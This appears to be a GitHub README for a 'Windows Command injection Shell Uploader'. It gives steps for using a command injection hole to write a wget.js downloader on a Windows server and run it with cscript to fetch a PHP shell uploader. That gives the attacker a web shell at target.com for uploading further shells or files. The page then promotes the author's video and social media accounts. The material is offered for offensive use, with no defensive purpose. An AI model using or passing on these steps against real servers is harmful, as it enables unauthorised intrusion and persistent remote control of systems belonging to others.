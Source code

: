 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files.

# Video

[![Video](https://i.imgur.com/WjJJT7D.png)](https://youtu.be/H5F93uEK7ME)

Youtube  : https://www.youtube.com/DigitalHackerOfficial.
Facebook : https://www.facebook.com/DigitalHackerOfficial.
Twitter  : https://twitter.com/Shehryar_DH.
Google+  : https://plus.google.com/+DigitalHacker.
Email    : digitalhacker07@gmail.com
